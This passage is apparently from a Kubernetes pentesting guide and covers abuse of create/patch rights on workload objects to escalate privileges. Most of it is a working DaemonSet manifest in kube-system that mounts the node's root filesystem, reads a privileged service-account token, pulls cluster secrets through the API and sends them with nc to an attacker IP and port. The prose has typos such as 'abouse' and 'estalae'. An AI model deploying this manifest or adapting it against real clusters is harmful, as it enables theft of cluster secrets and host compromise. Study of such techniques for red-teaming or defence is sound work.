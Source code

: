 For more information check:

{{#ref}}
pod-escape-privileges.md
{{#endref}}

### **Create/Patch Deployment, Daemonsets, Statefulsets, Replicationcontrollers, Replicasets, Jobs and Cronjobs**

It's possible to abouse these permissions to **create a new pod** and estalae privileges like in the previous example.

The following yaml **creates a daemonset and exfiltrates the token of the SA** inside the pod:

```yaml
apiVersion: apps/v1
kind: DaemonSet
metadata:
  name: alpine
  namespace: kube-system
spec:
  selector:
    matchLabels:
      name: alpine
  template:
    metadata:
      labels:
        name: alpine
    spec:
      serviceAccountName: bootstrap-signer
      automountServiceAccountToken: true
      hostNetwork: true
      containers:
        - name: alpine
          image: alpine
          command: ["/bin/sh"]
          args:
            [
              "-c",
              'apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://192.168.154.228:8443/api/v1/namespaces/kube-system/secrets; } | nc -nv 192.168.154.228 6666; sleep 100000',
            ]
          volumeMounts:
            - mountPath: /root
              name: mount-node-root
      volumes:
        - name: mount-node-root
          hostPath:
            path: /
```
